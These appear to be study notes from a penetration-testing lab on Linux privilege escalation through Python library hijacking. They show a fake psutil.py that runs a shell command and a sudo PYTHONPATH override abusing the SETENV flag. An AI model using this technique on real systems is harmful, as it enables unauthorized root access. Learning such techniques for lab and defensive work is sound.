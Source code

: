 ```shell
/usr/lib/python3.8/lib-dynload
/usr/local/lib/python3.8/dist-packages
/usr/lib/python3/dist-packages
```
Check if we have write permissions higher up 
```shell
ls -la /usr/lib/python3.8
```
Hijacking Python Module

Name the file as the same as the import `psutil.py`
```python
#!/usr/bin/env python3

import os

def virtual_memory():
    os.system('id')
```
Test
```shell
sudo /usr/bin/python3 mem_status.py
```

### PYTHONNPATH Environment Variable
* PYTHONPATH is an environmental variable that indicates what directory, python can search for modules to import.
* Check if we have permission to set environmental variables
Look for the `SETENV` flag
```shell
sudo -l 

Matching Defaults entries for htb-student on ACADEMY-LPENIX:
<snip>
commands on ACADEMY-LPENIX:
(ALL : ALL)
SETENV: NOPASSWD: /usr/bin/python3
```
Add the fake imported module python script to `tmp`

Add `/tmp` to python path
```shell
 sudo PYTHONPATH=/tmp/ /usr/bin/python3 ./mem_status.py
```


